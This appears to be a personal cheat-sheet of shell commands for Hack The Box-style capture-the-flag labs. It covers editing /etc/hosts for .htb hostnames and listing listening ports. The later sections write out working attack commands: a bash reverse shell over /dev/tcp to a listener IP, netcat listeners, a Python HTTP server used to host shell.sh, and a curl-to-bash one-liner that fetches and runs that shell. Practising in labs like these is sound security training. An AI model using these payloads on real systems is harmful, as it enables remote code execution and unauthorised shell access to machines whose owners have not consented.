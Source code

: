 ## Shell
echo to host file
```sh
echo "10.129.152.215 unika.htb" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.108.117 thetoppers.htb" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.251.52 dev.devvortex.htb/" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.1.27 ignition.htb" | sudo tee -a /etc/hosts
```

liste aller offenen Ports

```sh
-l: Display only listening sockets.
-t: Display TCP sockets.
-n: Do not try to resolve service names.

ss -tln

```
```sh
sudo netstat -tulnp
```

open reverse shell

### Reverse shell Server
- Kali contains a share folder with shell scrips
```sh
#create a listener for shell session
nc -nvlp 1337

#!/bin/bash
bash -i >& /dev/tcp/10.10.15.71/1337 0>&1

python3 -m http.server 8000

```
### get own ip
```
ip a | grep tun0 

```
### pwd
```sh
pwd #print working directory
```
```sh
python -m http.server 8001
```

### Differences between files
```sh
diff -y file1 file2
-y # side by side
```

## CurlAShell
```bash
#Create shell.sh file
#!/bin/bash
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.190/6565 0>&1'
#start python server
python3 -m http.server 8003
#start netcat listener
nc -lvnp 6565
#curl the shell
curl 10.10.14.190:8003/shell.sh|bash
```


